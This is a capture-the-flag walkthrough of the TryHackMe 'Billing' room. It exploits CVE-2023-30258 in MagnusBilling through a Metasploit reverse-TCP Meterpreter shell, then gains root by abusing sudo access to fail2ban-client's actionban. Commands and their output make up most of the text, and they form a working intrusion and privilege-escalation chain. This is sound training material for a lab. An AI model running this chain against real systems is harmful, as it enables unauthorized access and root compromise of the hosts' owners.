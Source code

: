 ```yaml
---
title: "TryHackMe: Billing"
author: cyb3rgh0u1
categories: [TryHackMe]
description: Exploit a well-known CVE to gain initial access, then elevate privileges by leveraging fail2ban.
tags: [web, rce, fail2ban, magnusbilling, metasploit]
media_subpath: /assets/img_dir/Billing_THM/
image: 
  path: billing.webp
author: cyb3rgh0u1
---
```


## Description

In the [**Billing TryHackMe**](https://tryhackme.com/room/billing) challenge, we'll exploit **CVE-2023-30258** to gain initial access to the **MagnusBilling** platform via unauthenticated remote code execution. Then, escalate privileges by abusing a misconfigured **fail2ban service** to achieve root access.


[![Billing](billing_1.png)](https://tryhackme.com/room/billing){: .center }


## Enumeration

Start with an nmap scan to identify open ports and services:

```shell
❯ nmap 10.10.254.59 -sC -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 13:59 UTC
Nmap scan report for 10.10.254.59
Host is up (0.37s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.254.59/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
```

Open Ports Identified:

    22/tcp: SSH (OpenSSH 8.4p1)
    80/tcp: HTTP (Apache 2.4.56)
    3306/tcp: MySQL (MariaDB 10.3.23 or earlier)

Let's start by focusing on HTTP website, since the other three ports don’t seem to offer anything noteworthy at the moment. If you look closely to the scanning output, there’s an application called MagnusBilling running. A quick Google search of that application reveals a known vulnerability, [CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), and it turns out there’s a Metasploit exploit available for it.


[![Google Search](billing_2.png)](https://tryhackme.com/room/billing){: .center }


## Exploitation

Launch Metasploit and configure the exploit:

```shell
msf6 > search magnusbilling_unauth_rce_cve_2023_30258

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.254.59
RHOSTS => 10.10.254.59

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.13.82.190
LHOST => 10.13.82.190

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.13.82.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.254.59:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.83 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.254.59
[+] Deleted CCfDLivv.php
[*] Meterpreter session 1 opened (10.13.82.190:4444 -> 10.10.254.59:42936) at 2025-03-20 19:26:50 +0000
```

Drop into a shell and upgrade it to a full TTY:


```shell
meterpreter > shell
Process 1545 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ 
```
>Note: The Python PTY module [docs](https://docs.python.org/3/library/pty.html) upgrades the shell to a fully interactive TTY. Learn more about TTYs [here](https://0xffsec.com/handbook/shells/full-tty/).

Now, locate the user.txt flag:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home
asterisk@Billing:/home$ ls
magnus
asterisk@Billing:/home$ cd magnus
asterisk@Billing:/home/magnus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{USER_FLAG_HERE}
````

## Privilege Escalation

Check for sudo privileges:

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user asterisk can run `/usr/bin/fail2ban-client` as root without a password. Verify that fail2ban is running:

```shell
asterisk@Billing:/home/magnus$ systemctl status fail2ban
● fail2ban.service - Fail2Ban Service
     Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-03-20 10:20:01 HDT; 36min ago
       Docs: man:fail2ban(1)
    Process: 526 ExecStartPre=/bin/mkdir -p /run/fail2ban (code=exited, status=0/SUCCESS)
   Main PID: 542 (fail2ban-server)
      Tasks: 19 (limit: 2268)
     Memory: 27.4M
        CPU: 6.366s
     CGroup: /system.slice/fail2ban.service
             └─542 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

`fail2ban-client` allows us to manipulate jail actions. We can abuse the actionban parameter to execute commands as root. Set a malicious actionban command to copy root.txt to a readable location:

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

Trigger the action by banning an IP (e.g., localhost):


```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```

>Note: If the file doesn’t appear, ensure fail2ban is running (sudo /usr/bin/fail2ban-client restart) and retry the above 2 steps again.

Read the flag:

```shell
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{ROOT_FLAG_HERE}
```

## Conclusion

By exploiting CVE-2023-30258, we gained initial access as the asterisk user via Metasploit. Then, leveraging a misconfigured fail2ban service with sudo privileges, we escalated to root and captured both flags. This challenge highlights the dangers of unpatched software and overly permissive configurations.
